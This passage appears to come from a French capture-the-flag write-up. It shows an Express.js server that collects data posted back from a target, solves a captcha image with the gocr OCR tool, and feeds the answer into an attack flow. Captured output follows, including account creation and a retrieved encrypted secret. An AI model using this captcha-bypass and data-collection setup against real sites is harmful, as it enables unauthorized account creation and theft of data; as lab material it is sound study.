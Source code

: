 ```javascript
app.post("/:anything", (req, res) => {
  console.log(req.params.anything);
  console.log(req.body);
  if (req.params.anything === "captcha") {
    console.log("WANT CAPTCHA");
    console.log(req.body);
    const match = req.body.content.match(
      /<img[^>]+src="data:image\/png;base64,([^"]+)"/
    );
    if (match && match[1]) {
      const base64Image = match[1];
      // 📁 Écriture du fichier image
      fs.writeFileSync("image.png", base64Image, "base64");
      console.log("✅ image.png créée avec succès");
      child_process.exec("gocr -i image.png", (error, stdout, stderr) => {
        if (error) {
          console.error(`❌ Erreur d'exécution de gocr: ${error.message}`);
          return;
        }
        if (stderr) {
          console.error(`⚠️ STDERR: ${stderr}`);
        }
        console.log(`🧾 Résultat OCR: ${stdout}`);
        res.json({ data: stdout.trim() });
      });
    } else {
      console.error("❌ Image base64 non trouvée dans le contenu HTML");
    }
  } else {
    res.status(200).json({ message: "Données reçues 👍" });
  }
});

// Démarrer le serveur
app.listen(PORT, "0.0.0.0", () => {
  console.log(`🚀 Serveur démarré sur http://localhost:${PORT}`);
});
```

J'utilise ici gocr pour la résolution du captcha, celui-ci étant très basique ce simple OCR suffit.
Une fois le payload envoyé, le contenu suivant est renvoyé :

```
[...]
🧾 Résultat OCR: JhKKLT

register_done
{ content: 'Account created !' }
part-two
[...]

get_secret
{
  content: '<html>\n' +
    '\n' +
    'Your item ! \n' +
    '<pre>\n' +
    '7b226976223a22373335396235383661636234613630336161333739643939222c22746167223a223032313530346566653063656162383135633062376361613965303730333431222c2263697068657274657874223a226633626132333364393162636262303139633964313537336531633563376162343732366638646464366232313531643532373964356532323536363265222c22657068656d6572616c507562223a22303261393963376533323361623237336231383037393566303361316431376262303735636364383462306638313264613331646362636634323330616164313766227d \n' +
    '</pre>\n' +
    '<br/>\n' +
```